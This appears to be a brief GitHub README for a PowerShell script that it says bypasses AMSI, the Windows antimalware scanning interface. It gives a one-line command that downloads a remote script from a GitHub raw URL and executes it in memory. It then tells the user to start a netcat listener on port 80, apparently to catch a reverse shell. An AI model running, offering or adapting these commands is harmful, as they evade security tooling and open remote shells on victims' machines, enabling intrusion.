 # obstest
This is a powershell script that bypass amsi :)

How to execute ? \n
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obtest/script.ps1')

set up a listerner 
nc -lvnp 80

Remember to stop any service running on port 80
